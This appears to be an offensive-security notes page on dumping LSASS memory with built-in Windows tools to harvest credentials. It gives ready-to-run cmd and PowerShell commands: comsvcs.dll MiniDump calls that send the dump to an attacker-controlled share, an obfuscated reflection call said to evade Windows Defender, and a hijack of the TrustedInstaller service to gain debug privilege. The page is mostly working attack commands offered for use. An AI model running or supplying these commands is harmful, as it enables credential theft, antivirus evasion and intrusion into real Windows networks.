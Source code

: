 ```yaml
---
title: LSASS Dump with builtins
---
```


[[notes/windows/lsass-dump]] with builtin tools.

With task manager:

- run `taskmgr.exe` as administrator
- select `Details` tab, right click on `lsass.exe`, select `create dump file`
- dump is written to `%userprofile%\AppData\Local\Temp\lsass.DMP`

With `comsvcs.dll`.
Detected by Windows Defender.

=== "cmd"
    ~~~ bat
    tasklist.exe /fi "imagename eq lsass.exe"
    rundll32.exe comsvcs.dll MiniDump %PID% \\attacker.lan@80\share\%COMPUTERNAME%.log full
    ~~~

=== "PowerShell"
    ~~~ powershell
    cd $env:programfiles;cp c:\windows\system32\comsvcs.dll system32.dll;$p = Get-Process lsass;rundll32.exe system32.dll,'#24' $p.id \\attacker.lan@80\share\$env:COMPUTERNAME.log full;rm system32.dll
    ~~~

With PowerShell Windows Error Reporting ([source](https://github.com/sinfulz/JustEvadeBro#lsass-dumping-without-triggering-defender)).
Undetected by Windows Defender.

~~~ powershell
$p = Get-Process lsass
$f = New-Object IO.FileStream("${env:programfiles}\${env:computername}.log", [IO.FileMode]::Create)
[PSObject].Assembly.GetType('Syst'+'em.Manage'+'ment.Autom'+'ation.Windo'+'wsErrorRe'+'porting').GetNestedType('Nativ'+'eMethods','Non'+'Public').GetMethod('MiniDu'+'mpWriteD'+'ump',[Reflection.BindingFlags] 'NonPublic,Static').Invoke($null,@($p.Handle,$null,$f.SafeFileHandle,[UInt32]2,[IntPtr]::Zero,[IntPtr]::Zero,[IntPtr]::Zero))
$f.Close()
echo $f.Name
~~~

Over *TrustedInstaller* ([source](https://www.pepperclipp.com/other-articles/dump-lsass-when-debug-privilege-is-disabled)).
The *TrustedInstaller* always has `SeDebugPrivilege` even if disabled for everybody else trough a GPO.
Starting the modified service throws an error, but the specified command is executed anyways.
Detected by Defender.

~~~ bat
tasklist.exe /fi "imagename eq lsass.exe"
sc.exe qc TrustedInstaller
sc.exe config TrustedInstaller binpath= "C:\Windows\System32\rundll32.exe comsvcs.dll MiniDump %PID% %cd%\%computername%.log full"
sc.exe start TrustedInstaller
sc.exe config TrustedInstaller binPath= "C:\Windows\servicing\TrustedInstaller.exe"
~~~
